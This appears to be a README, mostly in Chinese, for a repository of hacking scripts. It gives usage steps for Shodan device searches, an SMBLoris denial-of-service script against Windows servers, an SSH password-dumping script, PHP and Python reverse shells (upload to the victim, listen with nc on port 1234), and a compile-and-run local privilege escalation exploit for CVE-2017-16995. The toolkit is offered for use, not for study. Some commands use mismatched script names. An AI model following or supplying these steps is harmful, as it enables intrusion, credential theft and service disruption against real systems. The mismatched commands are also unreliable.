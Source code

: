 ﻿# Th1s 1s a rep0 ab0ut h3cking scr1pts

# shodan

调用shodan api 统计设备数量,如weblogic

shodancount.py weblogic

调用shodan api 搜索设备,如weblogic

shodansearch.py weblogic

# SMBLoris 通过smb服务对Windows服务器实施DOS攻击

chmod +x run10.sh

sh run10.sh

# httpscan 一个http简易扫描脚本

如要扫描192.168.0.0/24

httpscan.py 192.168.0.0/24

# dump_ssh_password 一个提取ssh密码的脚本

chmod +x ssh_password.sh

sh password.sh

然后新建一个窗口ssh登录，就可以看见ssh密码

# php-reverse-shell.php 一个基于php的反弹shell的脚本

把php-reverse-shell.php中49行的地址改为攻击机器的地址

上传该脚本到被攻击的机器上

登录攻击机器，监听1234端口

nc -lvp 1234

在被攻击的机器上执行脚本，即可在攻击机器上看到shell

php php-reverse-shell.php

# python-reverse-shell.py 一个基本python的反弹shell脚本

在攻击机器上监听端口，如1234

nc -lvp 1234

把php-reverse-shell.py上传到被攻击的机器上,指定攻击机器地址和端口执行即可

php-reverse-shell.py vps地址 1234

# upstream44.c Ubuntu 16.04本地提权漏洞(CVE-2017-16995)

编译执行即可

gcc -o upstream44 upstream44.c

sh upstream44

# Hope you enjoy ^_^